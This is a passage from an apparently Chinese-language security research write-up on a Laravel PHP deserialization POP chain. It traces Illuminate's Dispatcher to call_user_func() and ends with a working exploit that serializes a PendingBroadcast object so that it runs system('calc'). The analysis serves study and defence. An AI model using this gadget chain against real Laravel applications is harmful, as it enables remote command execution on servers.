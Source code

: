 ### POP链利用流程图

![undefined](https://p3.ssl.qhimg.com/t0168ad9a2bff687e2f.png "undefined")

## POP链-6
继续跟`dispatch()`方法，跟进`src/Illuminate/Bus/Dispatcher.php`中的`dispatch()`方法，注意到该方法如果 if 语句判断为 true 的话，会进入`dispatchToQueue()`方法，跟进`dispatchToQueue()`方法发现`call_user_func()`方法

![undefined](https://p3.ssl.qhimg.com/t01e6a9a1a6100e9667.png "undefined")

先看看怎么使得进入 if 语句的循环中，首先`$this->queueResolver`是可控的，跟进`commandShouldBeQueued()`方法，这里判断`$command`是否是`ShouldQueue`的实现，即传入的`$command`必须是`ShouldQueue`接口的一个实现，而且`$command`类中包含`connection`属性

![](https://p4.ssl.qhimg.com/t01367152dbc7f202a2.png "undefined")

这里找到两个符合条件的类`src/Illuminate/Notifications/SendQueuedNotifications.php`中的`SendQueuedNotifications`类和`src/Illuminate/Broadcasting/BroadcastEvent.php`中的`BroadcastEvent`类，当类是 use 了 trait 类，同样可以访问其属性，这里跟进`src/Illuminate/Bus/Queueable.php`

![undefined](https://p3.ssl.qhimg.com/t01e456ca37067ba2e3.png "undefined")

![undefined](https://p0.ssl.qhimg.com/t017b7422608496417f.png "undefined")

![undefined](https://p4.ssl.qhimg.com/t01f999c8bef616f299.png "undefined")

### exp
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver = "system";
    }
}

namespace Illuminate\Broadcasting {
    use  Illuminate\Bus\Dispatcher;
    class BroadcastEvent {
        public $connection;
        public $event;
        public function __construct() {
            $this->event = "calc";
            $this->connection = $this->event;
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
### POP链利用流程图
